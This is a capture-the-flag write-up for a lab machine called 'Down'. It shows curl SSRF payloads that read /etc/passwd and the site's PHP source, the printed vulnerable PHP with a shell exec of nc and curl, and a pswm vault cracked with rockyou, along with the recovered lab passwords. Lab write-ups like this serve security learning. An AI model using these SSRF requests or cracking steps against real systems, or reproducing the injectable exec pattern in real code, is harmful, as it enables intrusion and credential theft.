








# Down



## Introduction

Down gives us the opportunity to learn SSRF, code analysis, and to exploit a somewhat unusual part of curl (multiple URLs), and to learn more about a simple command-line password manager written in Python. (pswm)

## Enumeration

Nmap scan



**HTTP**

The site allows us to provide an IP address So I tried to bypass the protocol, but only `http` and `https` are allowed.



So I made a request to my ncat server, which shows `curl` as the agent



so it's probably behind our requests, something like this:
```
curl -s $url
```

At this stage, I performed several tests: Reverse Shell, RCE, RFI, but nothing worked. Then a GPT told me that curl can make multiple simultaneous requests.

By pure chance, i try [SSRF Reading local file](https://hackviser.com/tactics/pentesting/web/ssrf#local-file-access) and it work ! **it was my first time doing something like this** using curl

```sh
curl -s 'http://10.129.234.87/index.php' -X POST -d 'url=http://127.0.0.1/+file:///etc/passwd'
```



Since I had an output, I looked in the `index.php` file 

```sh
curl -s 'http://10.129.234.87/index.php' -X POST -d 'url=http://127.0.0.1/+file:///var/www/html/index.php'
```

and there it was:

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Is it down or just me?</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>

    <header>
        
        <h2>Is it down or just me?</h2>
    </header>

    <div class="container">

<?php
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' ) {
  echo '<h1>Is the port refused, or is it just you?</h1>
        <form id="urlForm" action="index.php?expertmode=tcp" method="POST">
            <input type="text" id="url" name="ip" placeholder="Please enter an IP." required><br>
            <input type="number" id="port" name="port" placeholder="Please enter a port number." required><br>
            <button type="submit">Is it refused?</button>
        </form>';
} else {
  echo '<h1>Is that website down, or is it just you?</h1>
        <form id="urlForm" action="index.php" method="POST">
            <input type="url" id="url" name="url" placeholder="Please enter a URL." required><br>
            <button type="submit">Is it down?</button>
        </form>';
}

if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {
  $ip = trim($_POST['ip']);
  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);
  $port = trim($_POST['port']);
  $port_int = intval($port);
  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);
  if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
    if ( $rc === 0 ) {
      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    } else {
      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Please specify a correct IP and a port between 1 and 65535.</font>';
  }
} elseif (isset($_POST['url'])) {
  $url = trim($_POST['url']);
  if ( preg_match('|^https?://|',$url) ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/curl -s $url");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
    if ( $rc === 0 ) {
      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    } else {
      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Only protocols http or https allowed.</font>';
  }
}
?>

</div>
</div>
<footer>© 2024 isitdownorjustme LLC</footer>
</body>
</html>
```

After analyzing the code, we notice that there is a HTTP GET parameter that changes the site's functional (`expertmode=tcp`)



## Initial Access



```sh
www-data@down:/home/aleks/.local/share/pswm$ ls ls -l
ls -l
total 4
-rw-rw-r-- 1 aleks aleks 151 Sep 13  2024 pswm
www-data@down:/home/aleks/.local/share/pswm$ 
```

Searching for the keyword `pswm` on Google will immediately lead you to something interesting.

- [pswm](https://github.com/Julynx/pswm) is a simple command-line password manager written in Python.Designed for security, it encrypts your passwords with a key only you know.

- [pswm-decryptor](https://github.com/seriotonctf/pswm-decryptor) A tool to force the PSWM master password and decrypt the password vault

So I transferred the PSWM file to my box to hack it.

```sh
┌──(.env)─(dipeua㉿berthold)-[~/pswm-decryptor]
└─$ python3 pswm-decrypt.py -f pswm -w /opt/rockyou.txt             
[+] Master Password: flower
[+] Decrypted Data:
+------------+----------+----------------------+
| Alias      | Username | Password             |
+------------+----------+----------------------+
| pswm       | aleks    | flower               |
| aleks@down | aleks    | 1uY3w22uc-Wr{xNHR~+E |
+------------+----------+----------------------+
```

## Privilege Escalation

```
aleks:1uY3w22uc-Wr{xNHR~+E
```

